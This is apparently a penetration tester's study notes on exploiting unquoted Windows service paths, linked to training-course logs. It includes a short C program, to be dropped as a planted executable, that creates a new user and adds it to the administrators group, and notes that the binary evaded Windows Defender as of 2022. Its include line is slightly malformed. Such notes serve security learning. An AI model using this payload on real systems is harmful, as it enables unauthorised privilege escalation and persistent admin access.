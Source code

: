 # Exploiting Unquoted Paths

**author**:: Nathan Acks  
**date**:: 2022-08-17

When Windows encounters an unquoted path it tries *all* possible paths, from shortest to longest. Thus `C:\Program Files\Application Path\App.exe` will cause Windows to look for the following executables, in order:

* `C:\Program.exe`
* `C:\Program Files\Application.exe`
* `C:\Program Files\Application Path\App.exe`

If an executable is found on a shorter path, then the remainder of the (unquoted) path is treated as command line parameters.

* [2022-04-21 — TryHackMe: Jr. Penetration Tester](../log/2022-04-21-tryhackme-jr-penetration-tester.md)

## Exploiting Services Running as SYSTEM

If a service is running as SYSTEM, the following code can be inserted (as `Program.exe` or `Application.exe` in the example above) and will add a new user with admin privileges. (`USERNAME` and `PASSWORD` obviously need to be updated to fit the current use case.)

```c
#include <stdlib.h

int main() {
	int i;

	i = system("net user USERNAME PASSWORD /add");
	i = system("net localgroup administrators USERNAME /add");

	return 0;
}
```

As of August 17, 2022, binaries compiled from this code are *not* detected as malicious by Windows Defender.

* [2022-08-17 — OffSec Live: PEN-200](../log/2022-08-17-offsec-live-pen-200.md)
